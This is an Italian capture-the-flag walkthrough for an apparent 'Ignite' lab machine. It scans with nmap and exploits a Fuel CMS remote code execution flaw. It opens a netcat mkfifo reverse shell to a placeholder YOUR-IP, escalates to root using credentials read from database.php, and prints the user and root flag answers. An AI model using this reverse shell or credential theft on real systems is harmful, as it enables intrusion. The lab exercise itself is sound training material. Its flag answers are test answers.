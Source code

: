# Ignite

____________

# Task 1 - Root it!

-  nmap -p- --open -sC -sV -sS -A -T 5 -Pn -oN scan_ignite.txt TARGET-IP

![Istantanea_2023-08-04_09-39-23](https://github.com/Manganaccio/Manganaccio/assets/137283468/3dfcba0c-7325-48c2-9bb6-936e798b53f2)

-  la scansione con nmap mostra che la porta 80 è aperta, pertanto possiamo navigare al sito web http://TARGET-IP

![Istantanea_2023-08-04_09-42-03](https://github.com/Manganaccio/Manganaccio/assets/137283468/39b93c47-ac65-42ea-9024-c7cb16d6b197)

-  il sito web mostra informazione molto interessanti relativamente al CMS e alla versione installata; scorrendo poi nel sito web si possono ottenere ulteriori informazioni inerenti le credenziali di default per l'accesso e la directory di login

![Istantanea_2023-08-04_09-41-01](https://github.com/Manganaccio/Manganaccio/assets/137283468/460823f9-641a-4bc8-b1bd-5ee575ee90c2)

-  attraverso una ricerca sulle eventuali vulnerabilità relative al CMS in questione (si può usare il comando _serachsploit fuel cms_ direttamente nel terminale o attraverso database come [exploit-db](https://www.exploit-db.com/)), si può notare che Fuel CMS è vulnerabile a RCE (Remote Code Execution)

![Istantanea_2023-08-04_15-01-45](https://github.com/Manganaccio/Manganaccio/assets/137283468/7ee282c6-a5d5-4d8e-a1af-e16508ed55e1)

-   con riferimento al file evidenziato nell'immagine sopra, una volta eseguito si può ottenere il controllo della shell attraverso l'esecuzione del comando "nc mkfifo": rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc YOUR-IP PORT >/tmp/f

![Istantanea_2023-08-04_10-05-20](https://github.com/Manganaccio/Manganaccio/assets/137283468/596c0041-7019-4f39-9a62-e9d8de2c68e3)

-   in un terminale eseguire il comando: nc -lvnp PORT (la porta da selezionare dovrà essere la medesima inserita nel comando "nc mkfifo")

![Istantanea_2023-08-04_10-05-46](https://github.com/Manganaccio/Manganaccio/assets/137283468/ba3e8548-abb6-4240-aac5-5af2a7c5ad07)

# User.txt

-  la prima flag si trova facilmente nella cartella /home/www-data

        Answer: 6470e394cbf6dab6a91682cc8585059b

# Root.txt

-  per trovare la seconda flag sarà necessario fare una piccola scalata dei privilegi; ritornando nella pagina web si ha un'ulteriore informazione che si può sfruttare per ottenere l'accesso al profilo root, sarà necessario quindi leggere il file database.php

![Istantanea_2023-08-04_15-24-43](https://github.com/Manganaccio/Manganaccio/assets/137283468/bc99f199-2f2b-43d8-914b-0be848b4b228)

- i dati presenti (username e password) ci permetteranno di accedere al profilo root e leggere la flag root.txt

![Istantanea_2023-08-04_10-21-38](https://github.com/Manganaccio/Manganaccio/assets/137283468/5064c3f6-b2f2-4268-b0b0-87795cd40025)

![Istantanea_2023-08-04_10-22-43](https://github.com/Manganaccio/Manganaccio/assets/137283468/5ff789e4-cacc-4c55-9064-1d71d1ee88ba)

        Answer: b9bbcb33e11b80be759c4e844862482d
